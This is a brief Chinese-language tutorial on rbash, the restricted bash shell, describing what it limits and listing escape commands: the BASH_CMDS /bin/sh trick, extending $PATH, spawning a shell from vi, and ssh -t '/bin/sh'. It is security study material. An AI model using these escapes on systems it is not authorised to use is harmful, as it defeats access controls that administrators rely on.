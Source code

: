 # 关于受限终端

## 介绍

-rbash

是指restricted bash

它是bash的一个受限版本，通常用于限制用户的操作权限

通过启用受限模式，可用对用户进行某些限制

常用于创建受限用户（如FTP，WEB用户）

用于限制用户的操作权限，防止系统被破坏

如：

- 禁止执行cd命令改变工作目录。

- 禁止运行任何命令（除指定的命令）

- 禁止修改环境变量，如$PATH



## 绕过方式

- 利用BASH_CMDS绕过

```
BASH_CMDS[a]=/bin/sh;a

export PATH=$PATH:/bin
```

- 修改$PATH环境变量

```
export PATH=$PATH:/bin
```

将/bin或/usr/bin添加到$PATH

（或者在本地echo $PATH，然后将路径复制过来）

- 利用编辑器绕过

```
vi
:!/bin/sh
```

- 利用SSH绕过

```
ssh user@target -t "/bin/sh"
```

连接时指定shell，获取未受限的Shell
